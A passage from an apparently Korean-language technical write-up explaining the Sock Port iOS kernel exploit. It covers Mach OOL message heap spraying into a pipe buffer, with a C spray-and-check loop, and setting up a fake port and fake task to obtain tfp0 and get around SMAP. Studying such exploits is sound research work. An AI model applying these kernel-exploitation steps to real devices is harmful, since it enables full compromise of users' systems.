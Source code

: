 다음으로 Mach OOL Message를 스프레이한다.

합법적이고 제어 가능한 `ipc_port`를 얻기 위해 Mach OOL(Message) 메시지를 이용한 힙 스프레이를 수행하는데, 이때 `remote port`를 반드시 기록해두어야 한다.

이는 이후 메시지를 수신할 때 우리가 교체한 포트의 핸들을 다시 획득해야 하기 때문이다.

여기서는 Pipe 버퍼와 동일한 크기(0x10000)의 메시지를 사용하여, 포트 주소가 Pipe 버퍼에 정확히 채워지도록 만든다.

그렇다면 우리가 스프레이하는데 성공했는지 어떻게 확인할 수 있을까?
우선 사용한 target port의 주소를 구한 뒤, Pipe 버퍼에서 8바이트를 읽어오면 됩니다. (이전에 8바이트를 미리 써두었기 때문에, 여기서 읽히는 값은 첫 번째 포트의 주소일 것이다.)

만약 스프레이하는데 성공했다면, target port 주소와 Pipe 버퍼에서 읽어온 주소는 일치해야 한다.

```c
// create a new port, this one we'll use for tfp0
    mach_port_t target = new_port();

// reallocate it while filling it with a mach message containing send rights to our target port
    mach_port_t p = MACH_PORT_NULL;
    for (int i = 0; i < 10000; i++) {
        
        // pipe is 0x10000 bytes so make 0x10000/8 pointers and save result as we'll use later
        p = fill_kalloc_with_port_pointer(target, 0x10000/8, MACH_MSG_TYPE_COPY_SEND);
        
        // check if spraying worked by reading first 8 bytes
        uint64_t addr;
        read(pipefds[0], &addr, 8);
        if (addr == target_addr) { // if we see the address of our port, it worked
            break;
        }
        write(pipefds[1], &addr, 8); // reset buffer position
        
        mach_port_destroy(mach_task_self(), p); // spraying didn't work, so free port
        p = MACH_PORT_NULL;
    }
```

### fake port 및 fake task 셋업하기

앞서 Pipe Buffer에 채워 넣은 것은 여전히 사용자 모드의 포트일 뿐이며, `tfp0` 권한이 없다. 
우리는 이 포트를 변조하여 `tfp0` 권한을 얻어야 한다.

하지만 SMAP의 존재로 인해, 우리가 위조한(fake) 포트와 fake task는 커널에서 정상적으로 접근되기 위해 반드시 pipe를 통해 커널 내로 복사되어야 한다. 따라서 새로운 pipe를 하나 더 생성한다.

Sock Port 익스플로잇의 소스코드를 보면 이 부분이 매우 정교하게 구성되어 있는데, 커널 내에 포트와 태스크 구조체를 담을 수 있는 연속된 영역을 할당하고, `port->task`가 그 바로 옆의 task 영역을 가리키도록 설정한다. 

SMAP 환경에서는 커널이 참조하는 주소가 userland에 속하면 안 되기 때문에 
`task`는 Pipe 버퍼 내의 공간을 가리키도록 만든다.

이렇게 하면 하나의 연속된 영역으로 포트와 태스크를 동시에 제어할 수 있게 되고, SMAP도 우회할 수 있다.

핵심 코드는 다음과 같다.

